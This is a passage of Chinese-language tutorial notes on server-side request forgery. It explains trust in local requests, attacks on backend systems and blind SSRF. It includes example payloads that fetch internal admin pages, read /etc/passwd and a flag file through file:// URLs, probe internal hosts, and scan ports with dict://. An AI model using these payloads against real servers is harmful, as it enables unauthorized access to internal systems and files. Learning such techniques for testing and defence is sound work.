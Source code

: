 服务器将会获取 /admin 的内容返回给用户

> 为什么应用程序会以这种方式运行，并且隐含的信任来自本地机器的请求？
>
> * 访问控制检查，在应用程序服务器的不同组件中实现，当连接返回到服务器本身时，将绕过检查
> * 出于灾难恢复的目的，应用程序可能允许来自本地计算机中的任何用户无需登陆即可进行管理访问
> * 管理界面可能侦听与主应用程序不同的端口号，因此用户可能无法直接访问

### 2. 针对其他后端系统的 SSRF 攻击

服务器端请求伪造经常出现的另一种信任关系是应用程序服务器能够与用户无法直接访问的其他后端系统进行交互。这些系统通常具有不可路由的私有 IP 地址。由于后端系统通常受到网络拓扑的保护，因此它们的安全状况通常较弱。在许多情况下，内部后端系统包含敏感功能，任何能够与系统交互的人无需身份验证即可访问这些功能。

```shell
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
```

### 3. 盲 SSRF 漏洞

`建议查看原文-->` [**链接**](https://portswigger.net/web-security/ssrf/blind)

> 当可以诱导应用程序向提供的 URL 发出后端 HTTP 请求，但`后端请求的响应未在应用程序的前端响应中返回时`，就会出现盲目 SSRF 漏洞。
>
> 盲目 SSRF 通常更难利用，但有时会导致在服务器或其他后端组件上完全远程执行代码。

#### 1. 影响

由于单向性，盲目 SSRF 漏洞的影响通常低于完全知情的 SSRF 漏洞。不能轻易利用它们从后端系统检索敏感数据，尽管在某些情况下可以利用它们来实现完全远程代码执行。

### 4. 读取服务器文件

```shell
ssrf.php?url=file:///etc/passwd
ssrf.php?url=file:///var/www/html/flag.php
```

### 5. 探测内网存活主机 (http/s 协议)

```shell
ssrf.php?url=http://192.168.52.1
ssrf.php?url=http://192.168.52.6
ssrf.php?url=http://192.168.52.25
......
```

### 6. 扫描内网端口（http/s和dict协议）

```shell
ssrf.php?url=dict://192.168.52.131:6379/info   // redis
ssrf.php?url=dict://192.168.52.131:80/info     // http
ssrf.php?url=dict://192.168.52.130:22/info   // ssh
```
